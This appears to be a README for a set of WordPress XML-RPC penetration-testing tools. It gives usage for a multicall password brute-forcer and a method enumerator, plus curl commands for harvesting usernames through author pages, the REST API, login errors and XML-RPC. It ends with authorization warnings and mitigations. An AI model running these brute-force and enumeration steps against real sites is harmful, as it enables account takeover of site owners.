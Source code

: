 # WordPress XML-RPC Testing Tools

This directory contains tools for testing WordPress XML-RPC endpoints for security vulnerabilities and testing password lists generated by the wordlist generator.

## What is XML-RPC?

WordPress XML-RPC is a remote procedure call (RPC) protocol that allows external applications to interact with WordPress sites. It's accessible at `/xmlrpc.php` and enabled by default on most WordPress installations.

### Security Implications

XML-RPC can be exploited for:

- **Brute force attacks**: The `system.multicall` method allows testing multiple passwords in a single request
- **Amplification attacks**: Single requests can perform multiple operations
- **Information disclosure**: Methods like `system.listMethods` reveal available functionality

## Tools

### `list.py` - Method Enumeration

Discovers available XML-RPC methods and checks which ones are accessible without authentication.

```bash
python list.py <URL> [options]
```

**Example:**

```bash
python list.py https://example.com
python list.py https://example.com --debug --header "User-Agent: Custom Bot"
```

**Options:**

- `--header/-H` - Custom HTTP headers (can be used multiple times)
- `--max-retries` - Maximum retry attempts for 400 errors (default: 5)
- `--debug` - Enable debug logging
- `--log-file` - Custom log file path (default: listmethods_logs.txt)

**What it does:**

- Calls `system.listMethods` to get all available methods
- Tests each method to see if authentication is required
- Helps identify potential attack vectors

### `brute.py` - Password Brute Force

Tests password lists against WordPress user accounts using the XML-RPC multicall method.

```bash
python brute.py <URL> <password_file> <username1> [username2]... [options]
```

**Example:**

```bash
python brute.py https://example.com ../wordlist.txt admin editor
python brute.py https://example.com passwords.txt admin --debug --wait-time 2.0 --header "X-Forwarded-For: 192.168.1.1"
```

**Options:**

- `--header/-H` - Custom HTTP headers (can be used multiple times)
- `--passwd-per-request` - Passwords per batch (default: 2000)
- `--wait-time` - Wait between requests in seconds (default: 1.0)
- `--debug` - Enable debug logging
- `--log-file` - Custom log file path (default: brute_logs.txt)
- `--chunk-size` - Password chunk size for reading (default: 2000)

````

**Features:**

- Tests up to 2000 passwords per request using multicall
- Automatically validates positive results individually
- Includes rate limiting and error handling
- Works with wordlists generated by the parent directory tool

## Username Enumeration Techniques

Before running brute force attacks, you need to identify valid usernames. Here are several methods:

### 1. Author Parameter (`?author=1`)

WordPress exposes usernames through author pages:

```bash
curl "https://example.com/?author=1"
curl "https://example.com/?author=2"
curl "https://example.com/?author=3"
````

Look for redirects to `/author/username/` or check the page title/content for usernames.

### 2. REST API Enumeration

WordPress REST API exposes user information:

```bash
# Method 1: Direct REST API
curl "https://example.com/wp-json/wp/v2/users"

# Method 2: Using rest_route parameter
curl "https://example.com/?rest_route=/wp/v2/users"
```

This returns JSON with user details including usernames, display names, and user IDs.

### 3. Wayback Machine

Search historical snapshots for author pages and usernames:

1. Go to [web.archive.org](https://web.archive.org)
2. Search for the target domain
3. Look for URLs containing:
   - `/author/`
   - `?author=`
   - Author bylines in blog posts
   - Comment sections with usernames

**Example searches:**

- `site:example.com author`
- `site:example.com "written by"`
- `site:example.com "posted by"`

### 4. Login Error Differences

Some WordPress sites reveal username validity through login error messages:

```bash
# Test with invalid username
curl -X POST "https://example.com/wp-login.php" \
  -d "log=nonexistentuser&pwd=wrongpass"

# Test with valid username
curl -X POST "https://example.com/wp-login.php" \
  -d "log=admin&pwd=wrongpass"
```

Look for different error messages that might indicate username validity.

### 5. XML-RPC Username Validation

Use XML-RPC methods to validate usernames:

```bash
curl -X POST "https://example.com/xmlrpc.php" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getCategories</methodName>
  <params>
    <param><value><string>testuser</string></value>
    <param><value><string>wrongpass</string></value>
  </params>
</methodCall>'
```

Different error responses may indicate username validity.

## Integration with Wordlist Generator

This tool is designed to work with wordlists generated by the parent directory tool:

1. **Generate targeted wordlist:**

   ```bash
   cd ..
   python main.py --output custom_passwords.txt
   ```

2. **Enumerate usernames** using methods above

3. **Test credentials:**
   ```bash
   cd xml-rpc
   python brute.py https://target.com ../custom_passwords.txt admin editor author
   ```

## Security Notes

- **Authorization Required**: Only test systems you own or have explicit permission to test
- **Rate Limiting**: The tools include delays to avoid overwhelming target servers
- **Detection**: XML-RPC attacks are easily detected and logged
- **Blocking**: Many security plugins block or disable XML-RPC entirely

## Mitigation

To protect against XML-RPC attacks:

1. **Disable XML-RPC** if not needed:

   ```php
   add_filter('xmlrpc_enabled', '__return_false');
   ```

2. **Block xmlrpc.php** in web server configuration
3. **Use security plugins** that monitor and block brute force attempts
4. **Implement strong passwords** and two-factor authentication
5. **Monitor logs** for suspicious XML-RPC activity

## Security Notice

Use only with proper authorization. This tool is for ethical security testing and educational purposes only.
